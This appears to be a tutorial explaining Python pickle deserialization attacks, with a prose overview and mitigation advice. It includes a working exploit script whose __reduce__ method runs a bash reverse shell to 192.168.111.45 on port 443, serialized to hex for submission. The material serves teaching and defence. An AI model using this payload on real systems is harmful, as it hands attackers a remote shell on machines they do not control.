 A **Pickle Deserialization Attack (DES-Pickle)** is a type of vulnerability that can occur in *Python* applications that use the *Pickle* library to serialize and deserialize objects.

The vulnerability occurs when an attacker is able to control the Pickle input that is passed to a deserialization function in the application. If the application code does not properly validate the Pickle input, it can allow an attacker to inject malicious code into the deserialized object.

Once the object has been deserialized, malicious code can be executed in the context of the application, which can allow the attacker to take control of the system, access sensitive data, or even execute remote code.

Attackers can exploit DES-Pickle vulnerabilities to perform denial-of-service (DoS) attacks, inject malicious code, or even take complete control of the system.

The impact of a Pickle Deserialization Attack depends on the type and sensitivity of the data that can be obtained, but can be very serious. Therefore, it is important for Python application developers to properly validate and filter the Pickle input that is passed to deserialization functions, and to use security techniques such as resource limiting to prevent DoS attacks and disabling automatic deserialization of untrusted objects.

# Example

Let's imagine that we have an input in a web page and we know that *Python* is running behind it. We can try to see if the *Pickle* library is being used and try to perform a code injection in the *deserialization* process:

```python
#!/usr/bin/python3

import pickle
import os
import binascii
from typing import Any

class Exploit(object):
	# reduce is a system-level call that executes the command we pass to it
    def __reduce__(self):
        return (os.system, ('bash -c "bash -i >& /dev/tcp/192.168.111.45/443 0>&1"',))

if __name__ == '__main__':
	# pickle.dumps shows all serialized data
    print(binascii.hexlify(pickle.dumps(Exploit())))
```

In the previous example we have returned the data converted to *hexadecimal* because the input code required that the data be passed in hexadecimal.

In this way we have managed to obtain a *reverse shell*.

This was possible because the user input is trusted and there is no sanitization.